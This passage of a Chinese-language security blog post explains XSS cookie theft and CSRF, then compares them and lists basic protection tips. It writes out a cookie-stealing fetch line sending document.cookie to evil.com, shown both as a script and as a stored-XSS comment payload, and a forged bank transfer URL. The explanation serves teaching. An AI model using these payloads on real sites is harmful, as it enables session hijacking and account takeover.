__如何盗取 Cookie？__

对于没有设置`HttpOnly`标志的 Cookie，JavaScript 可以直接读取`document.cookie`。典型的攻击代码就像这样：

```javascript title="script.js"
// 攻击者注入的恶意脚本
fetch('https://evil.com/steal?cookie=' + document.cookie);
```
__一个具体的攻击流程__：

   1. **注入**： 你在一个论坛/博客评论区，攻击者发了一条评论，内容是`<script>fetch('https://evil.com/steal?cookie='+document.cookie)</script>`。网站没过滤，存入了数据库。

   2. **触发**： 当你（或其他用户）浏览这条包含恶意脚本的评论页面时，你的浏览器会理所当然地执行这段“来自该网站”的脚本。

   3. **窃取**： 脚本读取了你的`document.cookie`（其中可能包含你的会话ID），然后直接发送到了攻击者的服务器`evil.com`。

   4. **利用**： 攻击者拿到你的会话Cookie，放在自己的浏览器里，无需密码就直接登录了你的账号。

__XSS 的几种常见类型__：

 - **反射型 XSS**： 恶意脚本藏在 URL 参数里（如`search?q=<script>...`）。攻击者诱骗你点击这个链接，“反射”后立即执行。通常是一次性的。

 - **存储型 XSS**： 恶意脚本被永久存在目标网站的数据库里（如上面评论区的例子）。这是危害最大的，能影响所有访问该页面的用户。

 - **DOM 型 XSS**： 完全在前端发生，通过修改页面 DOM 环境执行恶意脚本。

#### 2. CSRF（跨站请求伪造）—— 借你的身份“办事”，但不偷 Cookie
CSRF 常被与 XSS 混淆，但它的原理完全不同。它**无法盗取 Cookie**，而是**非法利用你的 Cookie**。

CSRF 的本质是 __借权__。攻击者诱导你已登录的浏览器，向目标网站发送一个伪造的、非本意的请求。由于浏览器会自动附带该网站的 Cookie，服务器会认为这个请求是你本人发出的。

**一个典型的攻击流程**：

   1. **登录状态**： 你已经登录了你的银行网站`bank.com`，浏览器里存着有效的会话 Cookie。

   2. **诱饵**： 攻击者给你发了一个链接（或者在你常去的论坛上放一张“恶意图片”），指向`https://bank.com/transfer?to=attacker&amount=10000`。

   3. **触发**： 你点击了这个链接（或者你的浏览器自动加载了那张图片）。你的浏览器会向`bank.com`发起 GET 请求，并且**自动附带上你之前保存的 Cookie**。

   4. **利用**：`bank.com`服务器收到请求，检查 Cookie 发现你是已登录用户，于是执行转账操作。转走的是你的钱。

**关键区别**： CSRF 全程没有读取过你的 Cookie，它只是利用了浏览器自动发送 Cookie 的机制。“脏活”由你的浏览器替你“合法”完成了。

#### 对比

| 特性 | XSS（跨站脚本攻击） | CSRF（跨站请求伪造）|
|-----|-----|-----|
| **核心本质** | 代码注入 | 请求伪造 |
| **目标** | 盗取信息、执行任意操作 | 以你的身份执行特定操作 |
| **能否盗取 Cookie？** | **能**（只有`<script>`能做到） | **不能**（只是利用 Cookie 鉴权） |
| **原理** | 在你信任的网站上执行恶意代码 | 诱导你发起非本意的跨站请求 |
| **你对网站的请求** | 正常的页面浏览 | 包含恶意参数的请求 |
| **浏览器行为** | 执行恶意代码，读取 Cookie 并发送 | 自动附带 Cookie，发送伪造请求 |

#### 防范

对于普通用户来说，无论你有没有拥有实体安全密钥，在此之前有没有配置过 2FA 验证，只要**牢记以下几点**：

 1. **检查你的系统环境**: 如果你的 PC 不慎感染了木马，立马使用卡巴斯基、Avast、迈克菲等安全杀毒软件查杀！如果木马/病毒过于顽固可以重装系统，**并在另外一个安全的设备上重新设置密码与安全密钥!**
 
 2. **检查网站与下载文件安全性**: 我之前编写必应搜索引擎与银狐木马的文章也有提到过这一点，**一定要检测网址与下载后文件有没有带毒！**
 
 3. **不要连接公共 Wi-Fi**: 公共网络常常是滋生黑客与病毒木马的温床，不安全的网路连接非常容易遭到攻击，黑客通常截获明文传输的数据包实现网络攻击，所以**出门在外请务必关闭自动连接公共Wi-Fi的功能！**

## P10: 小结

这篇博客文章估计是目前篇幅最长、质量最好的一个文章了，虽然说也有*从外部文章缝缝补补*、*使用AI辅助补充知识*的瑕疵，可谓过犹不及，但对于我来说已经足够完美了！

希望各位阅读完这篇教程后，可以在学习安全知识的同时动手实践一下，体验 Geeker 一般的感受，虽然说目前大陆上玩安全密钥的群体比较小众，但它也是一个值得引起注意与学习的一个好项目。总之，期待读者们也能得到非常多的收获！

如果有什么感想、文章优化建议、文章论述错误意见等，欢迎你们在评论区抒发自己的感受与提出你们的良好建议，我将会积极响应与反馈！

__THE END__

始编撰于 公元 2026 年 5 月 2 日 农历三月十六

__最后一次更新于 2026 年 5 月 7 日 农历三月廿一__